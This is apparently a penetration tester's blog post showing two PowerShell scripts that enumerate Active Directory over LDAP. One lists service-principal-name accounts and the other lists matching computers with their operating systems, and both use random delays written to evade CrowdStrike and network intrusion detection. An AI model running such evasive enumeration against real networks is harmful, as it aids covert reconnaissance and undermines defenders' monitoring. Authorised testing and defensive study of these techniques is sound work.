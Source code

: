 ```yaml
---
layout: post
title: "Active Directory: Using LDAP Queries for Stealthy Enumeration"
categories: ["Security"]
date: 2023-01-25
keywords:
- windows
- security
- active directory
- CrowdStrike
- Undercover
- Stealth
- Powershell
---
```

Customer Environment:

- crowdstrike
- NIDS
- up to date windows server

So I assumed that using `bloodhound` or `getuserspn.py` would be detected. So I tried some custom powershell scripts adding delays between access operations. After the assignment, we verified that those scripts did not trigger any detection (while `bloodhound` and `getuserspn.py` was detected for sure).

## Enumerating Users, SPNs, Computer-names

What is this powershell snippet doing (adopted from [this blog post](https://blog.netwrix.com/2022/08/31/discovering-service-accounts-without-using-privileges/))?

- exeucte a LDAP query
- write the output into the console as well as append it to output.txt
- after each query wait for 2..60 seconds to not trigger detection

~~~ powershell
$ldapFilter = "(servicePrincipalName=*)"
$domain = New-Object System.DirectoryServices.DirectoryEntry

$search = New-Object System.DirectoryServices.DirectorySearcher
$search.SearchRoot = $domain
$search.PageSize = 10
$search.Filter = $ldapFilter
$search.SearchScope = "Subtree"

$results = $search.FindAll()

foreach ($result in $results) {
     $userEntry = $result.GetDirectoryEntry()
     $name = $userEntry.name
     $dn =$userEntry.distinguishedName
     Write-Host "Name = $name"
     Write-Host "DN = $dn"
     Add-Content output.txt "SPN = $name"
     Add-Content output.txt "DN = $dn"
     foreach ($SPN in $userEntry.servicePrincipalName) {
         Write-Host "SPN = $SPN"
         Add-Content output.txt " - SPN=$SPN"
     }
     # add some random delay (2..60 seconds) between queries
     $random =Get-Random -Minimum 2000 -Maximum 60000
     Start-Sleep -Milliseconds $random
     Write-Host ""
     Add-Content output.txt ""
}:
~~~

We can use a very similar script (sans the file output) to enumerate over computers (here we query for all computer names containing `linux-`, please adopt this to your customer's naming scheme):

~~~ powershell
$ldapFilter = "(&(objectCategory=Computer)(name=linux-*))"
$domain = New-Object System.DirectoryServices.DirectoryEntry
$search = New-Object System.DirectoryServices.DirectorySearcher
$search.SearchRoot = $domain
$search.PageSize = 10
$search.Filter = $ldapFilter
$search.SearchScope = "Subtree"
$results = $search.FindAll()

foreach ($result in $results) {
     $userEntry = $result.GetDirectoryEntry()
     Write-Host "SPN = " $userEntry.name
     Write-Host "DN = " $userEntry.distinguishedName
     foreach ($SPN in $userEntry.operatingSystem) {
         Write-Host "- OS = " $SPN
     }
     $random =Get-Random -Minimum 500 -Maximum 5000
     Start-Sleep -Milliseconds $random
     Write-Host ""
}
~~~

I think you'll get the basic idea. You can find more [query examples](https://podalirius.net/en/articles/useful-ldap-queries-for-windows-active-directory-pentesting/) here..
